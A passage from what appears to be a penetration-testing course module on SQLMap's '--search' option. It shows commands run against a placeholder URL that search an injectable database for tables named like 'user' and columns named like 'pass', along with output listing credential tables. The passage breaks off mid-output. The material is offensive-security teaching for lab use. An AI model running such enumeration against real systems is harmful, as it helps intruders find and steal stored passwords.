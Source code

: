 ***

### Searching for Data

When dealing with complex database structures with numerous tables and columns, we can search for databases, tables, and columns of interest, by using the `--search` option. This option enables us to search for identifier names by using the `LIKE` operator. For example, if we are looking for all of the table names containing the keyword `user`, we can run SQLMap as follows:

Advanced Database Enumeration

```shell-session
AIceBear@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -T user

...SNIP...
[14:24:19] [INFO] searching tables LIKE 'user'
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master
[1 table]
+-----------------+
| users           |
+-----------------+

Database: information_schema
[1 table]
+-----------------+
| USER_PRIVILEGES |
+-----------------+

Database: mysql
[1 table]
+-----------------+
| user            |
+-----------------+

do you want to dump found table(s) entries? [Y/n] 
...SNIP...
```

In the above example, we can immediately spot a couple of interesting data retrieval targets based on these search results. We could also have tried to search for all column names based on a specific keyword (e.g. `pass`):

Advanced Database Enumeration

```shell-session
AIceBear@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -C pass

...SNIP...
columns LIKE 'pass' were found in the following databases:
Database: owasp10
Table: accounts
[1 column]
+----------+------+
| Column   | Type |
+----------+------+
| password | text |
+----------+------+

Database: master
Table: users
```
